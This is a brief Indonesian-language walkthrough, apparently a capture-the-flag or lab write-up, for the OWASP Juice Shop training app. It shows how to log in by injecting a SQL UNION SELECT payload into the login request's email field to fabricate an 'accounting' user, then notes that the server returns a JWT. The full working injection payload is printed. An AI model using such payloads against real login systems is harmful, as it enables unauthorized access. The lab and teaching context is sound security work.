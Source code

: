 1. Bentuk POST request login seperti berikut <br />
<img width="1654" height="974" alt="Screenshot 2025-09-11 000825" src="https://github.com/user-attachments/assets/695d20ea-d3d9-4cb8-ba79-dc1b13b31462" />

2. Inject temporary user ke login request payload

```
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```
<img width="1839" height="1022" alt="Screenshot 2025-09-11 000925" src="https://github.com/user-attachments/assets/e0c0a7bb-0c13-41b0-8f92-7d2aa003f555" />


3. Server merespon dengan JWT token yang berarti login berhasil <br />
<img width="1848" height="1079" alt="image" src="https://github.com/user-attachments/assets/2a9b9ca5-0a4b-4007-bd49-9113a7d5c9cf" />
